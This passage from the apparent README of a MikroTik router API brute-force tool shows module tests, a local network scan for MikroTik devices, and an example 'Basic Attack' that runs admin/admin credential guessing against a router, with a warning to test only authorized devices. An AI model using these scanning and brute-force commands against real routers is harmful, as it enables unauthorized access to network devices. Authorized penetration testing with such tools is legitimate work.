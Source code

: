 
## 🧪 Basic Tests

### Test 1: Module Validation
```bash
# Quick validation
python -c "
from _export import ResultExporter
from _progress import ProgressBar
from _retry import retry
from _proxy import ProxyManager
from _discovery import MikrotikDiscovery
print('✓ All modules imported successfully')
"
```

### Test 2: Run Test Suite
```bash
# Linux/macOS
./test_all.sh  # (if available)

# Windows
.\test_all.ps1

# Or manually
pytest test_mikrotikapi_bf.py -v
```

### Test 3: Network Discovery
```bash
# Test on localhost
python mikrotik-discovery.py -t 127.0.0.1 -v

# Scan local network (adjust to your network)
python mikrotik-discovery.py -n 192.168.1.0/24 --threads 20
```

---

## 🎯 Practical Usage

### ⚠️ IMPORTANT
> Only test on devices you own or have explicit authorization to test!

### Example 1: Basic Attack
```bash
# Single credential
python mikrotikapi-bf.py -t 192.168.88.1 -U admin -P admin

# With progress bar
python mikrotikapi-bf.py -t 192.168.88.1 -U admin -P admin --progress
```

